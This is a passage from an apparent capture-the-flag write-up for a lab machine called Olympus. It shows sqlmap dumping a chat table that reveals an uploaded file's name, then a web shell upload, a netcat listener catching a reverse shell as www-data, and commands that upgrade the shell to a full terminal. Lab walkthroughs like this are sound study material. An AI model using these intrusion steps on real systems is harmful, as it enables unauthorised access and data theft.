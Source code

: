 ```
# sqlmap -r r.req --level 5 --risk 3 --batch -D olympus -T chats --dump
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | 47c3210d51761686f3af40a875eeaaea.txt | prometheus |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | <blank>                              | prometheus |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | <blank>                              | zeus       |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+

```

Now visiting `chat.olympus.thm/uploads47c3210d51761686f3af40a875eeaaea.txt`. Proves us right.
After uploading the shell we use sqlmap to find the name of the shell. But nothing returned.
The reason is that sqlmap doesn't update it's queries so we have to add flag `--fresh-queries`.
Now spin up netcat and visit the file and we got connection back.

```
└─# nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.21.94.
Ncat: Connection from 10.10.21.94:50270.
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 22:07:45 up 19 min,  0 users,  load average: 0.00, 0.11, 0.41
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),7777(web)
/bin/sh: 0: can't access tty; job control turned off
$ 
which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@olympus:/$ ^Z
zsh: suspended  nc -lvnp 1234
stty raw -echo; fg                                                                                                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lvnp 1234

www-data@olympus:/$ export TERM=xterm

```
